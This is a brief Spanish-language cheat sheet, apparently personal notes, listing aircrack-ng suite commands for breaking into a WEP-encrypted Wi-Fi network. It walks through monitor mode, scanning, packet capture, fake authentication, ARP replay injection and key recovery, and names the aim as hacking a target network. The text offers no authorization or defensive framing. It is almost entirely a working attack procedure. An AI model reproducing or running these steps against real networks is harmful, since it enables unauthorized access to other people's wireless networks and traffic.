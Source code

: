 sudo -s

Chequear si algún proceso está controlando la wifi:
airmon-ng check wlo1

Matar esos procesos


Poner la interfaz wifi en modo escaneo:
airmon-ng start wlo1

  A lo mejor hace falta sacarla del NetworkManager:
  /etc/NetworkManager/NetworkManager.conf
  [keyfile]
  unmanaged-devices=mac:b2:d4:3c:ef:5b:71

  systemctl restart NetworkManager

  Si no funciona, parar el NetworkManager.

Tras el start debemos ver que nos ha creado una nueva interfaz en modo monitor:
iwconfig
  Veremos la interfaz wlo1mon con "Mode:Monitor"

Escaneo de redes:
airodump-ng -a wlo1mon


Ver redes WEP:
airodump-ng wlo1mon --encrypt wep

Si queremos guardar el tráfico:
airodump-ng -w /tmp/TMPlinset/dump -a wlo1mon


Colocar la interfaz en un canal determinado:
airodump-ng wlo1mon --channel 11


Testear si podemos atacar a una red:
aireplay-ng -9 -a C0:DF:DE:D4:D7:1D wlo1mon


Capturar paquetes:
airodump-ng -c 11 --bssid C0:DF:DE:D4:D7:1D -w captura wlo1mon

En otra terminal hacemos un fake auth para registrar nuestra MAC y que el AP no nos rechaze las inyecciones del siguiente paso:
aireplay-ng -1 0 -e NOMBRE_RED -a MAC_AP -h NUESTRA_MAC wlo1mon

Escuchar peticiones ARP y reinyectarlas. Aquí necesitamos que haya tráfico en la wifi que queremos hacekar:
aireplay-ng -3 -b MAC_AP -h NUESTRA_MAC wlo1mon


Una vez el inyector esté funcionando, podemos poner el aircrack a intentar conseguir la clave:
aircrack-ng captura-01.cap
